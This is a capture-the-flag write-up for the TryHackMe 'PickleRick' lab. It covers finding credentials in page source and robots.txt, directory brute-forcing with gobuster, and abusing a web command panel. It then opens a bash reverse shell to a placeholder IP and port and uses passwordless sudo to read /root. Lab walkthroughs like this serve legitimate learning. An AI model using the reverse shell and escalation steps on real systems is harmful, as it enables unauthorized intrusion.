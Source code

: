 PickleRick
==========

'll be honest, I never watched rick and morty and I have no idea why THM is addicted to making their references to a point that they have a whole CTF named after it, but I digress, lets figure this one out.

We start with looking at the source code and find this bit of info:

```
<!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
  ```
  
Seems useful enough, then I start a gobuster directory attack and get the following hits:
```
/index.html
/login.php
/assets
/portal.php
/robots.txt
```

(Keep in mind, I used dirb's common.txt first and then used dirbuster's lowercase wordlist)

`/robots.txt` has this particular output:

![Images](images/1.png)

We move on to login.php and use the username from the source code and the `/robots.txt` output as the password and this screen shows up:

![Images](images/2.png)

This is the portal.php that gobuster hit earlier and we can see that this has a command line that we can use.
Clicking on anything other than the commands page gives you nothing as you don't have admin access.

There are a couple ways you can go to solve this ctf from here, but I'll show you the one that made the most sense with me.

Using `ls` on the CLI gives us this output:

![Images](images/3.png)

Since everything else on the output was visible before, I lookup the `Sup3rS3cretPickl3Ingred.txt` file directly through the URL and see this (commands like cat won't work but `less` and `strings` does work which is one of the many ways to do this CTF, also `clue.txt` is useless as we can clearly see what the ingredient is):

![Images](images/4.png)

This is the first ingredient out of 3, lets try getting a reverse shell through this command:

`bash -c "bash -i >& /dev/tcp/IP_ADDR/PORT 0>&1"`

Now we have a reverse shell, which makes this challenge way more convenient

(This one is a personal preference but you can use this command for a cli that can be used to fool sudo: `python -c 'import pty; pty.spawn("/bin/bash")'`)

The second ingredient can be found in /home/rick

The third ingredient is very tricky as you are left to figure out where it is, usually some value comes out of getting root access, so we check if we have root access by using `sudo -l` :

![Images](images/5.png)

As you can see, sudo doesn't need a password to run for commands, so we can freely look into the root directory using `sudo ls /root` and see what it holds:

![Images](images/6.png)

We have found the 3rd ingredient and completed the CTF.
